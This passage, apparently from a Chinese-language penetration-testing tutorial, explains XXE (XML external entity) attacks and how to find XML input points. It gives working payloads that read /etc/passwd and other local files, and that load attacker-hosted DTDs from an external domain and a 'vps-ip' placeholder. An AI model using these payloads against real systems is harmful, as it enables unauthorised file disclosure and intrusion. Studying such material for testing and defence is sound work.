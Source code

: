 XML 文件内容：

*注意：在DTD内部使用的参数实体，使用`%实体`*

```xml-dtd
<?xml version="1.0"?>
<!DOCTYPE a [
<!ENTITY %d SYSTEM "http://mark4z5.com/evil.dtd">
%d;
]>
<c>&b;</c>
```

evil.dtd 文件内容：

```dtd
<!ENTITY b SYSTEM "file:///etc/passwd/">
```

### 寻找 XML 输入点

**甄别那些接受XML作为输入内容的端点。** 

但是有时候，这些端点可能并不是那么明显（比如，一些仅使用JSON去访问服务的客户端）。在这种情况下，渗透测试人员就必须<u>尝试不同的测试方式</u>，比如修改HTTP的请求方法，修改Content-Type头部字段等等方法，然后看看应用程序的响应，<u>看看程序是否解析了发送的内容</u>，如果解析了，那么则可能有XXE攻击漏洞。

例如：

判断wsdl（web服务描述语言），或者一些常见的采用xml的java服务配置文件（spring，struts2）。不过<u>现实中存在的大多数XXE漏洞都是blind，即不可见的，必须采用带外通道进行返回信息的记录</u>，这里简单来说就是攻击者必须具有一台具有公网ip的主机。

例如：

从PHP代码层面，存在 `Content-Type：text/xml` , 说明 post 的数据包含 XML 格式，如：可以在请求头中添加 `Content-Type:text/xml` 或 `Content-type:application/xml` ，然后构造payload测试是否存在XXE攻击漏洞。

## XXE 利用方式

### 1. 文件读取有回显

**直接读靶机文件**

```xml-dtd
<?xml version = "1.0"?>
<!DOCTYPE ANY [
<!ENTITY xxe SYSTEM "file:///d://test.txt">
]>
<x>&xxe;</x>
```

**通过恶意引入外部参数实体，读靶机文件**

```xml-dtd
<?xml version="1.0" ?>
<!DOCTYPE test [
    <!ENTITY % file SYSTEM "http://vps-ip/hack.dtd">
    %file;
]>
<test>&hhh;</test>
```
